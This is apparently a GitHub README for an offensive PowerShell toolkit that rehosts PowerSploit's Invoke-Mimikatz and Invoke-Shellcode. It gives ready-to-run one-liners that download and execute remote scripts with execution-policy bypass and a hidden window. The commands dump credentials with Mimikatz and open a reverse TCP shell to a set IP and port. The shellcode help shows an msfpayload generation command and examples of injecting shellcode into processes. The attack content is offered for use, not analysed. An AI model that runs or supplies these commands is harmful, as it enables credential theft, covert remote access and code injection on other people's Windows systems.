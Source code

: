 # Cloudpower
test for interest
The Invoke-Mimikatz & Invoke-Shellcode is from https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/

# Help for Invoke-Mimikatz:
powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/aspiggy/Cloudpower/master/Invoke-Mimikatz.ps1'); Invoke-Mimikatz



# Help for rev.ps1:
It's a reverse_tcp payload, please set a listener, then do as below:

winx86:

powershell -ep bypass -w hidden -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/aspiggy/Cloudpower/master/rev.ps1'); rev -ip 4.4.4.4 -port 443"

winx64:

C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe -ep bypass -w hidden -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/aspiggy/Cloudpower/master/rev.ps1'); rev -ip 4.4.4.4 -port 443"

# Help for Invoke-Shellcode:
.SYNOPSIS

Inject shellcode into the process ID of your choosing or within the context of the running PowerShell process.
PowerSploit Function: Invoke-Shellcode
Author: Matthew Graeber (@mattifestation)
License: BSD 3-Clause
Required Dependencies: None
Optional Dependencies: None
 
.DESCRIPTION

Portions of this project was based upon syringe.c v1.2 written by Spencer McIntyre
PowerShell expects shellcode to be in the form 0xXX,0xXX,0xXX. To generate your shellcode in this form, you can use this command from within Backtrack (Thanks, Matt and g0tm1lk):
msfpayload windows/exec CMD="cmd /k calc" EXITFUNC=thread C | sed '1,6d;s/[";]//g;s/\\/,0/g' | tr -d '\n' | cut -c2- 
Make sure to specify 'thread' for your exit process. Also, don't bother encoding your shellcode. It's entirely unnecessary.
 
.PARAMETER ProcessID

Process ID of the process you want to inject shellcode into.

.PARAMETER Shellcode

Specifies an optional shellcode passed in as a byte array

.PARAMETER Force

Injects shellcode without prompting for confirmation. By default, Invoke-Shellcode prompts for confirmation before performing any malicious act.

.EXAMPLE

 C:\PS> Invoke-Shellcode -ProcessId 4274

-----------
Inject shellcode into process ID 4274.

.EXAMPLE

C:\PS> Invoke-Shellcode

-----------
Inject shellcode into the running instance of PowerShell.

.EXAMPLE

C:\PS> Invoke-Shellcode -Shellcode @(0x90,0x90,0xC3)

-----------
Overrides the shellcode included in the script with custom shellcode - 0x90 (NOP), 0x90 (NOP), 0xC3 (RET)
Warning: This script has no way to validate that your shellcode is 32 vs. 64-bit!
